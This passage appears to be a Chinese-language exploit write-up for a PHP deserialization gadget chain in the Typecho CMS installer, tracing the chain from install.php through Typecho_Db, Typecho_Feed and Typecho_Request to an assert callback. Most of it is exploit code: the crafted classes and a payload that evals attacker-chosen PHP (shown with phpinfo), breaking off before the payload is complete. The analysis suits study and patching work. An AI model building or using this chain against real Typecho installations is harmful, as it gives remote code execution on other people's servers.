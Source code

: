 攻击链：

```
install.php
        |
绕过程序退出来到unserialize()
        |
db.php中__construct() 触发__toString()
        |
Feed.php中__toString触发__get()
        |
request.php中__get()调用get()->_applyFilter()->回调函数

```


下面来构造exp，为了方便理解我们可以从尾到头来写

首先我们需要`_applyFilter`中的`$filter`的值为一个命令函数这里一般选择`assert()`,然后要让`get()`中的`$value`就是我们传入的命令也就是`_params['screenName']`，所以可以构造如下。

```
class Typecho_Request
{
    private $_params = array('screenName' =>'eval(\'phpinfo();exit();\')');
    private $_filter = array('assert');
    
}

```
`request.php`构造完了再构造`Feed.php`中需要的值,这里我们要进入`$item['author']->screenName`这个前面有个`self::RSS2 == $this->_type`语句 RSS2= RSS 2.0所以赋值对应的，这里的调用跟我前面写的那个CTF类似。

```
class  Typecho_Feed
{   
    private $_type = 'RSS 2.0';
    private $_items ;   
    
    public function __construct (){
        $this->_items[] = array('author' => new Typecho_Request());
    }
}

```
最后回到`install.php中` 看到`$db = new Typecho_Db($config['adapter'], $config['prefix']);` 触发`db.php`中的`__construct()`需要传入2个值，但是有个是默认的所以我们传入一个我们序列化的上面的值就可以了。


payload :

```
<?php

class Typecho_Request
{
    private $_params = array('screenName' =>'eval(\'phpinfo();exit();\')');
    private $_filter = array('assert');
    
}

class  Typecho_Feed
{   
    private $_type = 'RSS 2.0';
    private $_items ;   
    
    public function __construct (){
        $this->_items[] = array('author' => new Typecho_Request());
    }
```